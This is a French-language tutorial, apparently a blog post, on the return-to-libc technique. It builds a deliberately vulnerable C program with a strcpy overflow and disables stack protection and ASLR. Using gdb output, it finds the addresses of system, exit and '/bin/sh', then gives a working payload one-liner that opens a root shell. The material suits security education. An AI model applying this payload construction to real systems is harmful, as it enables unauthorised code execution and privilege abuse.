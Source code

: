 ```yaml
---
title: "Return to libc"
description: sam.png
tags: ["In this article I present to you how to exploit a vulnerability to bypass the NX system with the technique of return to libc."]
---
```


![forthebadge made-with-python](https://media.giphy.com/media/xT9IgG50Fb7Mi0prBC/giphy.gif)

Prerequisites :
- Have the basics in `pwn` to understand and attack a basic buffer overflow.
- And a computer, eh eh!

Today I would like to present an article for a new technique of `Buffer Overflow`. A relatively fun and very simple technique, are you interested? If so, let's go!

# C'est quoi la technique de la retourne à la libc ?

Ce que nous avons vue la dernière fois en rapport avec les `Buffer Overflow` pour exécuter un `shellcode`,  il fallait que la `pile/stack` soit exécutable. 

    root@0xEX75:~# readelf -lW ./testing |grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RWE 0x10
    
Le `R` désigne tout simplement que la pile est en lecture et la lettre `W` correspond concrètement à l'écriture sur la pile et enfin la lettre `E` correspond à la pile exécutable, et c'est grâce à ce système que nous pouvons exécuter un shellcode car c'est le processeur qui exécute notre shellcode.

![forthebadge made-with-python](https://2.bp.blogspot.com/-UPzV6M_ZsK8/W3B5kWiwYII/AAAAAAAAAeE/L1izLVAJGbwfh52XG4HjMtPDDMXC-bLqACLcBGAs/s1600/ret2libc.png)

Dans des cas assez spécifique, la pile n'est pas exécutable donc c'est presque impossible de faire exécuter un shellcode au programme pour `pop` un shell par exemple. Donc les experts ont trouver une solution qui se nomme la technique de `retourne à la libc`, qui permet d'utiliser des fonctions de la `libc`, comme par exemple la fonction `system();` pour ensuite l'utiliser contre le programme.

# Pratique exploitation !

(Pour cette partie, nous désactiverons l'`ASLR`, car la technique de retourne à la libc fonctionne uniquement si la pile n'est pas exécutable et que l'ASLR n'est pas activé.)

Voici un petit script en C qui ne fait pas grand chose :

    #include <stdlib.h>
    #include <stdio.h>
    #include <string.h>

    void name(char*);

    void name(char *f)
    {
        char firstname[10];
        strcpy(firstname, f);
        printf("Your name : %s\n", firstname);
    }

    int main(int argc, char *argv[])
    {
        if(argc != 2)
        {
            exit(0);
        }
        name(argv[1]);
        return 0;
    }
    
Un programme basique qui ne fait pas grand chose, mais la vulnérabilité se trouve au niveau de la fonction `strcpy();`. Je suppose que vous savez que les fonctions comme `strcpy();`, `strcat();` etc.. ne sont pas du tout sécurisées donc il existe un système qui se nomme `FORTIFY_SOURCE` qui permet de remplacer les fonctions par des fonctions beaucoup plus sécurisées.

Ensuite, une petite compilation est nécessaire :

    root@0xEX75:~/libc# gcc -m32 -fno-stack-protector libc.c -o libc
    root@0xEX75:~/libc# readelf -lW libc|grep GNU_STACK
    GNU_STACK      0x000000 0x0000000000000000 0x0000000000000000 0x000000 0x000000 RW  0x10
    
(Le flag `E` n'est pas là, donc la pile n'est plus du tout exécutable.). Si nous essayons d'exécuter le programme après la compilation, cela fonctionne, mais dans la mémoire il se passe des choses.

    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*17')
    Your name : AAAAAAAAAAAAAAAAA
    root@0xEX75:~/libc# ./libc $(python -c 'print "A"*18')
    Your name : AAAAAAAAAAAAAAAAAA
    segmentation fault (core dumped)
    
Nous pouvons aperçevoir que le programme plante après 17 caractères, donc l'`OFFSET` correspond exactement à 17 caractères, si nous effectuons un dépassement, la sauvegarde `sEIP` sera complètement écrasé et le programme plantera automatiquement.

Nous allons lancer `GDB` (GNU Debugger), et nous allons chercher l'adresse de la fonction `system();`, `exit();` et finalement une chaîne comme `/bin/sh` qui nous permettra de lancer cette commande en particulier.

    root@0xEX75:~/libc# gdb ./libc
    GNU gdb (Debian 8.3.1-1) 8.3.1
    Copyright (C) 2019 Free Software Foundation, Inc.
    License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
    This is free software: you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    Type "show copying" and "show warranty" for details.
    This GDB was configured as "x86_64-linux-gnu".
    Type "show configuration" for configuration details.
    For bug reporting instructions, please see:
    <http://www.gnu.org/software/gdb/bugs/>.
    Find the GDB manual and other documentation resources online at:
        <http://www.gnu.org/software/gdb/documentation/>.

    For help, type "help".
    Type "apropos word" to search for commands related to "word"...
    Reading symbols from ./libc...
    (No debugging symbols found in ./libc)
    gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Starting program: /root/libc/libc AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Your name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

    Program received signal SIGSEGV, Segmentation fault.
    [----------------------------------registers-----------------------------------]
    EAX: 0x54 ('T')
    EBX: 0x41414141 ('AAAA')
    ECX: 0x7fffffac 
    EDX: 0xf7fae010 --> 0x0 
    ESI: 0xf7fac000 --> 0x1d6d6c 
    EDI: 0xf7fac000 --> 0x1d6d6c 
    EBP: 0x41414141 ('AAAA')
    ESP: 0xffffd290 ('A' <repeats 45 times>)
    EIP: 0x41414141 ('AAAA')
    EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
    [-------------------------------------code-------------------------------------]
    Invalid $PC address: 0x41414141
    [------------------------------------stack-------------------------------------]
    0000| 0xffffd290 ('A' <repeats 45 times>)
    0004| 0xffffd294 ('A' <repeats 41 times>)
    0008| 0xffffd298 ('A' <repeats 37 times>)
    0012| 0xffffd29c ('A' <repeats 33 times>)
    0016| 0xffffd2a0 ('A' <repeats 29 times>)
    0020| 0xffffd2a4 ('A' <repeats 25 times>)
    0024| 0xffffd2a8 ('A' <repeats 21 times>)
    0028| 0xffffd2ac ('A' <repeats 17 times>)
    [------------------------------------------------------------------------------]
    Legend: code, data, rodata, value
    Stopped reason: SIGSEGV
    0x41414141 in ?? ()
    gdb-peda$ p system
    $1 = {<text variable, no debug info>} 0xf7e17660 <system> # ADDRESS FUNCTION SYSTEM
    gdb-peda$ p exit
    $2 = {<text variable, no debug info>} 0xf7e0a6f0 <exit> # ADDRESS FUNCTION EXIT
    gdb-peda$ searchmem "/bin/sh"
    Searching for '/bin/sh' in: None ranges
    Found 1 results, display max 1 items:
    libc : 0xf7f54f68 ("/bin/sh") # ADDRESS /BIN/SH
    
Donc, nous avons réussis à capturer les adresses de `system();`, `exit()` et finalement de la chaîne "`/bin/sh"`.

- `system();` : `0xf7e17660`
- `exit();`   : `0xf7e0a6f0`
- `/bin/sh`   : `0xf7f54f68`

![forthebadge made-with-python](https://fundacion-sadosky.github.io/guia-escritura-exploits/esoteric/imagenes/ret-2-libc.png)

Il suffit maintenant d'utiliser les adresses que nous avons capturer contre le programme afin de `pop` un shell. Si nous avons pris la fonction `exit()`, c'est pour simplement quitter le shell de manière correct, car si nous mettons pas la fonction `exit();`, et que nous quittons le shell, il nous affichera un beau `segfault`, donc pas très beau à voir, vous n'êtes pas obliger de le mettre n'empêche, c'est totalement facultatif.

    root@0XEX75:~/libc# ./libc $(python -c 'print "A"*22 + "\x60\x76\xe1\xf7" + "\xf0\xa6\xe0\xf7" + "\x68\x4f\xf5\xf7"')
    Your name : AAAAAAAAAAAAAAAAAAAAAA`vhO
    # whoami
    root
    # id
    uid=0(root) gid=0(root) groupes=0(root)

![forthebadge made-with-python](https://media.giphy.com/media/XqXDNFZREKMBq/giphy.gif)

# CONCLUSION !

Voilà, nous arrivons enfin au bout de cet article qui, je l’espère, vous aura plus. J'ai essayer de vous expliquez le fonctionnement de la `technique de la retourne à la libc`, n'hésitez pas à me contacter sur les réseaux sociaux, je suis toujours disponible pour vous répondre.
